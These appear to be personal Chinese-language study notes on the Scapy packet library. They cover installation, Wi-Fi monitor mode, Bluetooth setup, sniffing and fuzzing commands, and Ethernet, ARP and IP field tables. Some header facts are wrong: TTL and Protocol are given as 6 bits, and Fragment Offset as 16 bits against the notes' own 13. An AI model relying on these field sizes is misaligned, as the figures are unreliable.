# Scapy 状元笔记
## 一.安装
### 1.1.必选
tcpdump: `sudo apt-get install tcpdump`

Scapy: `pip3 install --pre scapy`

### 1.2.可选
`pip3 install matplotlib vpython pyx cryptography sphinx  sphinx_rtd_theme pylint `

nmap

pyx:
  - `sudo apt-get install texlive`

wireshark

## 二.启动
### 2.1.启动Scapy
`sudo scapy`

### 2.2.wi-fi启动监听模式

`sudo iw dev wlan0 interface add mon0 type monitor`

`sudo ifconfig mon0 up`

`sudo ip link set mon0 up `

### 2.3.启动蓝牙


kali虚拟机启动蓝牙

1. 本机关闭蓝牙
2. 
3. 
4. `apt-get install bluetooth`
5. `service bluetooth restart`
6. `service bluetooth status`
    ```
    bluetooth.service - Bluetooth service
         Loaded: loaded (/lib/systemd/system/bluetooth.service; enabled; vendor pre>
         Active: active (running) since Wed 2020-01-01 06:22:50 EST; 3min 10s ago
           Docs: man:bluetoothd(8)
       Main PID: 595 (bluetoothd)
         Status: "Running"
          Tasks: 1 (limit: 4615)
         Memory: 4.0M
         CGroup: /system.slice/bluetooth.service
                 └─595 /usr/lib/bluetooth/bluetoothd
    
    ```
7. `systemctl enable /lib/systemd/system/bluetooth.service`
8. `systemctl start bluetooth.service`
9. 验证蓝牙设备
    - `hcitool dev`
    - 如果虚拟机获取不到蓝牙
        - 
        - 
    - 则在Device Manager中把蓝牙先禁用再启用
        - 
        - 
    - 然后选择你要连接到的虚拟机
        - 
    - 连接后可以等俩分钟再验证
10. 测试LE Scan
    - `hcitool lescan`


## 三.修改主题
### 3.1.临时
`conf.color_theme = ColorOnBlackTheme()`

### 3.2.永久
修改文件`/usr/local/lib/python3.7/dist-packages/scapy/main.py`

```Pyhton
from scapy.themes import ColorOnBlackTheme
conf.color_theme = ColorOnBlackTheme()
```

## 四.常用命令
https://scapy.readthedocs.io/en/latest/api/scapy.packet.html
https://scapy.readthedocs.io/en/latest/api/scapy.utils.html

`explore`: 显示层中的包类型
```
>>> explore(scapy.layers.l2)
Packets contained in scapy.layers.l2:
Class      |Name
-----------|-----------------------
ARP        |ARP
CookedLinux|cooked linux
Dot1AD     |802_1AD
Dot1Q      |802.1Q
Dot3       |802.3
ERSPAN     |ERSPAN
Ether      |Ethernet
GRE        |GRE
GRE_PPTP   |GRE PPTP
GRErouting |GRE routing information
LLC        |LLC
Loopback   |Loopback
SNAP       |SNAP
STP        |Spanning Tree Protocol
```

`ls`: 显示协议参数其及默认值
```
>>> ls(IP)
version    : BitField (4 bits)                   = (4)
ihl        : BitField (4 bits)                   = (None)
tos        : XByteField                          = (0)
len        : ShortField                          = (None)
id         : ShortField                          = (1)
flags      : FlagsField (3 bits)                 = (<Flag 0 ()>)
frag       : BitField (13 bits)                  = (0)
ttl        : ByteField                           = (64)
proto      : ByteEnumField                       = (0)
chksum     : XShortField                         = (None)
src        : SourceIPField                       = (None)
dst        : DestIPField                         = (None)
options    : PacketListField                     = ([])
```

`/`: 层叠加
- 例: `Ether()/IP()/UDP()`
`rdpcap(filename, count=-1)`: 读取pcap文件, count: 读取几个包, 默认全部
`hexdump()`
`import_hexcap()`
`export_object()`: export a base64 encoded Python data structure representing a packet
`import_object()`
`.summary()`: 显示概要
- ans.summary(lambda s,r : r.sprintf("%TCP.sport% \t %TCP.flags%") ) 
`.nsummary()`: 显示概要(带数据包号)
`fuzz(p)`: 返回除用户指定的数据外,其他参数均为随机的p
`del()`: 就数据恢复默认值
- 例: `del(a.ttl)`
`conf.route`: 查看路由表
- 例:
    ```Python
    >>> conf.route
    Network     Netmask         Gateway         Iface
    127.0.0.0   255.0.0.0       0.0.0.0         lo 
    192.168.8.0 255.255.255.0   0.0.0.0         eth0 
    0.0.0.0     0.0.0.0         192.168.8.1     eth0 
    >>> conf.route.delt(net="0.0.0.0/0",gw="192.168.8.1") 
    >>> conf.route.add(net="0.0.0.0/0",gw="192.168.8.254") 
    >>> conf.route.add(host="192.168.1.1",gw="192.168.8.1") 
    >>> conf.route 
    Network     Netmask         Gateway         Iface 
    127.0.0.0   255.0.0.0       0.0.0.0         lo 
    192.168.8.0 255.255.255.0   0.0.0.0         eth0 
    0.0.0.0     0.0.0.0         192.168.8.254   eth0 
    192.168.1.1 255.255.255.255 192.168.8.1     eth0 
    >>> conf.route.resync() 
    >>> conf.route 
    Network     Netmask         Gateway        Iface 
    127.0.0.0   255.0.0.0       0.0.0.0        lo 
    192.168.8.0 255.255.255.0   0.0.0.0        eth0 
    0.0.0.0     0.0.0.0         192.168.8.1     eth0
    ```
`traceroute()`
`sniff()`
> 嗅探数据包并返回数据包列表. 
- count: 要捕获的包的数量. 0意味着无穷.
- store: 是否存储嗅探包或丢弃它们
- prn: 应用于每个包的函数, 如果返回某个内容, 则显示它
    - 例: prn = lambda x: x.summary()
- session: defragment packets, before executing the prn. 
    - IPSession: defragment IP packets on-the-flow, to make a stream usable by prn. 
    - TCPSession: defragment certain TCP protocols*. Only HTTP 1.0 currently uses this functionality.
    - NetflowSession: resolve Netflow V9 packets from their NetflowFlowset information objects

- filter: BPF过滤器
    - 例: filter="arp"
    - https://biot.com/capstats/bpf.html
- lfilter: 将Python函数应用于每个包, 以确定是否可以执行进一步的操作
    - 例: lfilter = lambda x: x.haslayer(Padding)
- offline: 从PCAP文件(或PCAP文件列表)读取数据包, 而不是嗅探它们
- timeout: 给定时间后停止嗅探(默认:None)
- L2socket: 使用提供的L2socket(默认:使用conf.L2listen). 
- opened_socket: 为.recv()提供一个对象(或对象列表). 
- stop_filter: Python函数应用于每个包, 以确定我们是否必须在这个包之后停止捕获
    - 例: stop_filter = lambda x: x.haslayer(TCP)
- iface: 接口或接口列表(默认:None, 嗅探所有接口). 
- monitor: 使用监控模式. 可能无法在所有操作系统上使用
- started_callback: 嗅探器开始嗅探时立即调用(默认:None)
- 例:
    - `sniff(prn=lambda x:x.summary(), lfilter=lambda x:x.haslayer(TCP), stop_filter=lambda x:x.haslayer(Padding))`
`AsyncSniffer()`
- 例:
    ```Python
    t = AsyncSniffer(iface="enp0s3", count=200)
    t.start()
    t.join()
    results = t.results
    print(len(results))

    t = AsyncSniffer(prn=lambda x: x.summary(), store=False, filter="tcp")
    t.start()
    time.sleep(20)
    t.stop()
    ```
`RandString(size=None, chars=b'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789')`
- 返回指定size的字符串

Packet方法
- https://scapy.readthedocs.io/en/latest/api/scapy.packet.html#scapy.packet.Packet
- `firstlayer()`
- `get_field(fld)`
- `getfield_and_val(attr)`
- `getfieldval(attr)`
- `getlayer(cls, nb=1, _track=None, _subclass=None, **flt)`
- `haslayer(cls)`
- `hide_defaults()`
- `init_fields()`
- `lastlayer(layer=None)`
- `layers()`
- `show(dump=False, indent=3, lvl=' | label_lvl='')`
    - 打印或返回包的层次结构视图(如果“dump”为真). 
- `show2(dump=False, indent=3, lvl=' | label_lvl='')`
    - 打印或返回(当“dump”为真时)包的组装版本的层次视图, 以便计算自动字段(校验和等). 
- `sniffed_on`
- `sprintf(format[, relax=1])`
    - 例:
        ```
        p.sprintf("%.time% %-15s,IP.src% -> %-15s,IP.dst% %IP.chksum% ""%03xr,IP.proto% %r,TCP.flags%")
        p.sprintf("This is a{TCP: TCP}{UDP: UDP}{ICMP:n ICMP} packet")
        p.sprintf("{IP:%IP.dst% {ICMP:%ICMP.type%}{TCP:%TCP.dport%}}")
        ```
- `summary(intern=0)`

## 五.参数
`a,b`: 表示a, b

`(a,b)`: 表示 [a, b]

`SA`: 表示SYN, ACK

`Rate+HE`: 表示Rate, HE


## 六.导入导出数据
### 6.1.导出
`scapy -s mysessionpath`

`wrpcap("temp.cap",pkts)`

### 6.2.导入

`save_session('session.scapy')`

`pkts = rdpcap("temp.cap")`

`pkts = sniff(offline="temp.cap")`


## 七.可视化
`.make_table()`
- 例:
    ```Python
    #  头列值, 头行值, 显示值
    ans.make_table(lambda x:(x[IP].src, x[IP].ttl, x[IP].dst))     
    p.make_table(lambda x:(x[IP].dst, x[TCP].dport, x[TCP].sprintf(“%flags%”))
    ```
`.graph()`
- 例:
    ```Python
    res.graph(target="> /share/graph.svg")
    ```

## 八.数据链路层
### 8.1.Ether:`scapy.layers.l2.Ether`
<details>

- dst
    - Destination MAC(48 bits)
- src
    - Source MAC(48 bits)
- type
    - Type(16 bits)
    - 部分常见的以太类型
    <details>  

    | 以太类型编号 | 代表协议                                                        |
    | ------------ | --------------------------------------------------------------- |
    | 0x0800       | Internet Protocol version 4                                     |
    | 0x0806       | Address Resolution Protocol                                     |
    | 0x0842       | Wake-on-LAN                                                     |
    | 0x22F0       | Audio Video Transport Protocol as defined in IEEE Std 1722-2011 |
    | 0x22F3       | IETF TRILL Protocol                                             |
    | 0x6003       | DECnet                                                          |
    | 0x8035       | Reverse Address Resolution Protocol                             |
    | 0x809B       | AppleTalk                                                       |
    | 0x80F3       | AppleTalk                                                       |
    | 0x8100       | IEEE 802.1Q                                                     |
    | 0x8137       | IPX                                                             |
    | 0x8138       | IPX                                                             |
    | 0x8204       | QNX Qnet                                                        |
    | 0x86DD       | Internet Protocol Version 6                                     |
    | 0x8808       | Ethernet flow control                                           |
    | 0x8809       | IEEE 802.3                                                      |
    | 0x8819       | CobraNet                                                        |
    | 0x8847       | MPLS                                                            |
    | 0x8848       | MPLS                                                            |
    | 0x8863       | PPPoE                                                           |
    | 0x8864       | PPPoE                                                           |
    | 0x8870       | Jumbo Frames                                                    |
    | 0x887B       | HomePlug 1.0 MME                                                |
    | 0x888E       | IEEE 802.1X                                                     |
    | 0x8892       | PROFINET                                                        |
    | 0x889A       | HyperSCSI                                                       |
    | 0x88A2       | ATA over Ethernet                                               |
    | 0x88A4       | EtherCAT                                                        |
    | 0x88A8       | IEEE Std 802.1Q - Service VLAN tag identifier (S-Tag)           |
    | 0x88AB       | Ethernet Powerlink                                              |
    | 0x88CC       | 链路层发现协议                                                  |
    | 0x88CD       | SERCOS III                                                      |
    | 0x88E1       | HomePlug AV MME                                                 |
    | 0x88E3       | Media Redundancy Protocol (IEC62439-2)                          |
    | 0x88E5       | IEEE 802.1AE                                                    |
    | 0x88E7       | IEEE 802.1ah                                                    |
    | 0x88F7       | Precision Time Protocol                                         |
    | 0x8902       | IEEE 802.1ag                                                    |
    | 0x8906       | Fibre Channel over Ethernet                                     |
    | 0x8914       | FCoE                                                            |
    | 0x8915       | RDMA over Converged Ethernet                                    |
    | 0x892F       | High-availability Seamless Redundancy                           |
    | 0x9000       | Ethernet Configuration Testing Protocol                         |
    | 0x9100       | double tagging                                                  |
    </details>
</details>

### 8.2.ARP:`scapy.layers.l2.ARP`
> 通过解析网络层地址来找寻数据链路层地址的网络传输协议

<details>

- 硬件字段
    - hwtype
        - Hardware type
        - 此字段指定网络链接协议类型. 例如:以太网是1. 
    - hwlen
        - Hardware address length
        - 硬件地址的长度(以字节为单位). 以太网地址长度为6. 
    - hwsrc
        - Sender hardware address 
        - 发送者的媒体地址. 在ARP请求中, 此字段用于指示发送请求的主机的地址. 在ARP应答中, 此字段用于指示请求正在寻找的主机地址
    - hwdst
        - Target hardware address 
        - 接收人的媒体地址. 在ARP请求中, 该字段被忽略. 在ARP应答中, 此字段用于指示发起ARP请求的主机的地址. 
- 协议字段
    - ptype
        - Protocol type
        - 此字段指定ARP请求所针对的网络协议. 对于IPv4, 它的值是0x0800. 允许的PTYPE值与EtherType值共享一个编号空间
    - plen
        - Protocol address length
        - 网络地址的长度(以字节为单位). 网络协议在PTYPE中指定. 示例:IPv4地址长度为4. 
    - psrc
        - Sender protocol address 
        - 发送者的网络地址    
    - pdst
        - Target protocol address
        - 目标接收方的网络地址. 
- op
    - Operation 
    - 指定发送方执行的操作:1表示请求, 2表示应答. 
</details>


### 8.3.Dot1Q:`scapy.layers.l2.Dot1Q`
> IEEE 802.1Q, IEEE 802.1q定义一个关于VLAN连接介质访问控制层和IEEE 802.1D生成树协议的具体概念模型. 这个模型允许各个独立的VLAN与以太网交换机的数据链路层或路由器互相连接.   

<details>

- prio
    - priority
- vlan
    - virtual LANs 
- type
- id
</details>


## 九.网络层
### 9.1.IP:`scapy.layers.inet.IP`
> Internet Protocol 
    
<details>
    
- version: 
    - Version (4 bits)
    - 4, 6, 7: IP, IPv6, TP/IX
- ihl:
    - Internet Header Length(4 bits) 
    > Specifies the length of the IP packet header in 32 bit words. The minimum value for a valid header is 5.
- tos: 
    - Type of Service (8 bits)
    - Differentiated Service Field(DSCP) (6 bits)
        - 设置了也没有用, 设置了DSCP也会被运营商的边界路由器重写为0
    - Explicit Congestion Notification(ECN)  (2 bits)
        - 允许端到端通知网络拥塞, 而不会丢弃数据包
- len
    - Total Length (16 bits)
- id
    - Identification (16 bits)
- flags
    - Flags (3 bits)
    - bit 0: Reserved; must be zero.[note 1]
    - bit 1: Don't Fragment (DF)
    - bit 2: More Fragments (MF)
- frag
    - Fragment Offset (16 bits)
    > The fragment offset field is measured in units of eight-byte blocks. It is 13 bits long and specifies the offset of a particular fragment relative to the beginning of the original unfragmented IP datagram. The first fragment has an offset of zero. This allows a maximum offset of (213 – 1) × 8 = 65,528 bytes, which would exceed the maximum IP packet length of 65,535 bytes with the header length included (65,528 + 20 = 65,548 bytes).
- ttl: 
    - Time To Live (6 bits)
    > IP数据包在计算机网络中可以转发的最大跳数
- proto
    - Protocol (6 bits)
    - 常用
        Protocol Number | Protocol Name| Abbreviation 
        | --------------- | ------------------------------------------------------------------------------------------------------------------------------------------ | ------------ |
        | 1               | <a href="/wiki/Internet_Control_Message_Protocol" title="Internet Control Message Protocol">Internet Control Message Protocol</a>          | ICMP         |
        | 2               | <a href="/wiki/Internet_Group_Management_Protocol" title="Internet Group Management Protocol">Internet Group Management Protocol</a>       | IGMP         |
        | 6               | <a href="/wiki/Transmission_Control_Protocol" title="Transmission Control Protocol">Transmission Control Protocol</a>                      | TCP          |
        | 17              | <a href="/wiki/User_Datagram_Protocol" title="User Datagram Protocol">User Datagram Protocol</a>                                           | UDP          |
        | 41              | <a href="/wiki/IPv6#Tunneling" title="IPv6">IPv6 encapsulation</a>                                                                         | ENCAP        |
        | 89              | <a href="/wiki/Open_Shortest_Path_First" title="Open Shortest Path First">Open Shortest Path First</a>                                     | OSPF         |
        | 132             | <a href="/wiki/Stream_Control_Transmission_Protocol" title="Stream Control Transmission Protocol">Stream Control Transmission Protocol</a> | SCTP         |
    - 全部
        <details>

        | 十进制  | 十六进制  | 关键字                                                                                                      | 协议                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         | 引用                                                                                                                                                                                                                        |
        | ------- | --------- | ----------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
        | 0       | 0x00      | HOPOPT                                                                                                      | IPv6逐跳选项                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc2460">RFC 2460</a>                                                                                                                 |
        | 1       | 0x01      | ICMP                                                                                                        | <a href="/wiki/%E4%BA%92%E8%81%94%E7%BD%91%E6%8E%A7%E5%88%B6%E6%B6%88%E6%81%AF%E5%8D%8F%E8%AE%AE" title="互联网控制消息协议">互联网控制消息协议 (ICMP) </a>                                                                                                                                                                                                                                                                                                                                                                                                  | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc792">RFC 792</a>                                                                                                                   |
        | 2       | 0x02      | IGMP                                                                                                        | <a href="/wiki/%E5%9B%A0%E7%89%B9%E7%BD%91%E7%BB%84%E7%AE%A1%E7%90%86%E5%8D%8F%E8%AE%AE" title="因特网组管理协议">因特网组管理协议 (IGMP) </a>                                                                                                                                                                                                                                                                                                                                                                                                               | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc1112">RFC 1112</a>                                                                                                                 |
        | 3       | 0x03      | GGP                                                                                                         | <a href="/w/index.php?title=%E7%BD%91%E5%85%B3%E5%AF%B9%E7%BD%91%E5%85%B3%E5%8D%8F%E8%AE%AE&amp;action=edit&amp;redlink=1" class="new" title="网关对网关协议 (页面不存在) ">网关对网关协议</a>                                                                                                                                                                                                                                                                                                                                                               | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc823">RFC 823</a>                                                                                                                   |
        | 4       | 0x04      | IPv4                                                                                                        | <a href="/wiki/IPv4" title="IPv4">IPv4</a> (封装)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc791">RFC 791</a>                                                                                                                   |
        | 5       | 0x05      | ST                                                                                                          | <a href="/wiki/%E5%9B%A0%E7%89%B9%E7%BD%91%E6%B5%81%E5%8D%8F%E8%AE%AE" title="因特网流协议">因特网流协议</a>                                                                                                                                                                                                                                                                                                                                                                                                                                                 | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc1190">RFC 1190</a>, <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc1819">RFC 1819</a>    |
        | 6       | 0x06      | TCP                                                                                                         | <a href="/wiki/%E4%BC%A0%E8%BE%93%E6%8E%A7%E5%88%B6%E5%8D%8F%E8%AE%AE" title="传输控制协议">传输控制协议 (TCP) </a>                                                                                                                                                                                                                                                                                                                                                                                                                                          | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc793">RFC 793</a>                                                                                                                   |
        | 7       | 0x07      | CBT                                                                                                         | <a href="/w/index.php?title=%E6%9C%89%E6%A0%B8%E6%A0%91%E7%BB%84%E6%92%AD%E8%B7%AF%E7%94%B1%E5%8D%8F%E8%AE%AE&amp;action=edit&amp;redlink=1" class="new" title="有核树组播路由协议 (页面不存在) ">有核树组播路由协议</a>                                                                                                                                                                                                                                                                                                                                     | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc2189">RFC 2189</a>                                                                                                                 |
        | 8       | 0x08      | EGP                                                                                                         | <a href="/wiki/%E5%A4%96%E9%83%A8%E7%BD%91%E5%85%B3%E5%8D%8F%E8%AE%AE" title="外部网关协议">外部网关协议</a>                                                                                                                                                                                                                                                                                                                                                                                                                                                 | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc888">RFC 888</a>                                                                                                                   |
        | 9       | 0x09      | IGP                                                                                                         | <a href="/wiki/%E5%86%85%E9%83%A8%E7%BD%91%E5%85%B3%E5%8D%8F%E8%AE%AE" title="内部网关协议">内部网关协议</a> (任意私有内部网关 (用于思科的IGRP) )                                                                                                                                                                                                                                                                                                                                                                                                            |
        | 10      | 0x0A      | BBN-RCC-MON                                                                                                 | BBN RCC 监视                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
        | 11      | 0x0B      | NVP-II                                                                                                      | <a href="/wiki/%E7%BD%91%E7%BB%9C%E8%AF%AD%E9%9F%B3%E5%8D%8F%E8%AE%AE" class="mw-redirect" title="网络语音协议">网络语音协议</a>                                                                                                                                                                                                                                                                                                                                                                                                                             | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc741">RFC 741</a>                                                                                                                   |
        | 12      | 0x0C      | PUP                                                                                                         | Xerox <a href="/w/index.php?title=PUP&amp;action=edit&amp;redlink=1" class="new" title="PUP (页面不存在) ">PUP</a>                                                                                                                                                                                                                                                                                                                                                                                                                                           |
        | 13      | 0x0D      | ARGUS                                                                                                       | ARGUS                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
        | 14      | 0x0E      | EMCON                                                                                                       | EMCON                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
        | 15      | 0x0F      | XNET                                                                                                        | Cross Net Debugger                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | IEN 158                                                                                                                                                                                                                     |
        | 16      | 0x10      | CHAOS                                                                                                       | Chaos                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
        | 17      | 0x11      | UDP                                                                                                         | <a href="/wiki/%E7%94%A8%E6%88%B7%E6%95%B0%E6%8D%AE%E6%8A%A5%E5%8D%8F%E8%AE%AE" title="用户数据报协议">用户数据报协议 (UDP) </a>                                                                                                                                                                                                                                                                                                                                                                                                                             | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc768">RFC 768</a>                                                                                                                   |
        | 18      | 0x12      | MUX                                                                                                         | <a href="/w/index.php?title=Multiplexing&amp;action=edit&amp;redlink=1" class="new" title="Multiplexing (页面不存在) ">Multiplexing</a>                                                                                                                                                                                                                                                                                                                                                                                                                      | IEN 90                                                                                                                                                                                                                      |
        | 19      | 0x13      | DCN-MEAS                                                                                                    | DCN Measurement Subsystems                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
        | 20      | 0x14      | HMP                                                                                                         | <a href="/w/index.php?title=Host_Monitoring_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Host Monitoring Protocol (页面不存在) ">Host Monitoring Protocol</a>                                                                                                                                                                                                                                                                                                                                                                                  | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc869">RFC 869</a>                                                                                                                   |
        | 21      | 0x15      | PRM                                                                                                         | Packet Radio Measurement                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
        | 22      | 0x16      | XNS-IDP                                                                                                     | XEROX NS IDP                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
        | 23      | 0x17      | TRUNK-1                                                                                                     | Trunk-1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
        | 24      | 0x18      | TRUNK-2                                                                                                     | Trunk-2                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
        | 25      | 0x19      | LEAF-1                                                                                                      | Leaf-1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
        | 26      | 0x1A      | LEAF-2                                                                                                      | Leaf-2                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
        | 27      | 0x1B      | RDP                                                                                                         | <a href="/w/index.php?title=Reliable_Datagram_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Reliable Datagram Protocol (页面不存在) ">Reliable Datagram Protocol</a>                                                                                                                                                                                                                                                                                                                                                                            | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc908">RFC 908</a>                                                                                                                   |
        | 28      | 0x1C      | IRTP                                                                                                        | <a href="/w/index.php?title=Internet_Reliable_Transaction_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Internet Reliable Transaction Protocol (页面不存在) ">Internet Reliable Transaction Protocol</a>                                                                                                                                                                                                                                                                                                                                        | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc938">RFC 938</a>                                                                                                                   |
        | 29      | 0x1D      | ISO-TP4                                                                                                     | ISO Transport Protocol Class 4                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc905">RFC 905</a>                                                                                                                   |
        | 30      | 0x1E      | NETBLT                                                                                                      | <a href="/w/index.php?title=Bulk_Data_Transfer_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Bulk Data Transfer Protocol (页面不存在) ">Bulk Data Transfer Protocol</a>                                                                                                                                                                                                                                                                                                                                                                         | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc998">RFC 998</a>                                                                                                                   |
        | 31      | 0x1F      | MFE-NSP                                                                                                     | <a href="/w/index.php?title=MFE_Network_Services_Protocol&amp;action=edit&amp;redlink=1" class="new" title="MFE Network Services Protocol (页面不存在) ">MFE Network Services Protocol</a>                                                                                                                                                                                                                                                                                                                                                                   |
        | 32      | 0x20      | MERIT-INP                                                                                                   | <a href="/w/index.php?title=MERIT_Internodal_Protocol&amp;action=edit&amp;redlink=1" class="new" title="MERIT Internodal Protocol (页面不存在) ">MERIT Internodal Protocol</a>                                                                                                                                                                                                                                                                                                                                                                               |
        | 33      | 0x21      | DCCP                                                                                                        | <a href="/wiki/Datagram_Congestion_Control_Protocol" class="mw-redirect" title="Datagram Congestion Control Protocol">Datagram Congestion Control Protocol</a>                                                                                                                                                                                                                                                                                                                                                                                               | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc4340">RFC 4340</a>                                                                                                                 |
        | 34      | 0x22      | 3PC                                                                                                         | <a href="/w/index.php?title=Third_Party_Connect_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Third Party Connect Protocol (页面不存在) ">Third Party Connect Protocol</a>                                                                                                                                                                                                                                                                                                                                                                      |
        | 35      | 0x23      | IDPR                                                                                                        | <a href="/w/index.php?title=Inter-Domain_Policy_Routing_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Inter-Domain Policy Routing Protocol (页面不存在) ">Inter-Domain Policy Routing Protocol</a>                                                                                                                                                                                                                                                                                                                                              | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc1479">RFC 1479</a>                                                                                                                 |
        | 36      | 0x24      | XTP                                                                                                         | <a href="/w/index.php?title=Xpress_Transport_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Xpress Transport Protocol (页面不存在) ">Xpress Transport Protocol</a>                                                                                                                                                                                                                                                                                                                                                                               |
        | 37      | 0x25      | DDP                                                                                                         | <a href="/w/index.php?title=Datagram_Delivery_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Datagram Delivery Protocol (页面不存在) ">Datagram Delivery Protocol</a>                                                                                                                                                                                                                                                                                                                                                                            |
        | 38      | 0x26      | IDPR-CMTP                                                                                                   | <a href="/w/index.php?title=IDPR_Control_Message_Transport_Protocol&amp;action=edit&amp;redlink=1" class="new" title="IDPR Control Message Transport Protocol (页面不存在) ">IDPR Control Message Transport Protocol</a>                                                                                                                                                                                                                                                                                                                                     |
        | 39      | 0x27      | TP++                                                                                                        | <a href="/w/index.php?title=TP%2B%2B_Transport_Protocol&amp;action=edit&amp;redlink=1" class="new" title="TP++ Transport Protocol (页面不存在) ">TP++ Transport Protocol</a>                                                                                                                                                                                                                                                                                                                                                                                 |
        | 40      | 0x28      | IL                                                                                                          | <a href="/w/index.php?title=IL_(network_protocol)&amp;action=edit&amp;redlink=1" class="new" title="IL (network protocol) (页面不存在) ">IL Transport Protocol</a>                                                                                                                                                                                                                                                                                                                                                                                           |
        | 41      | 0x29      | IPv6                                                                                                        | <a href="/wiki/6in4" title="6in4">IPv6 封装</a>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc2473">RFC 2473</a>                                                                                                                 |
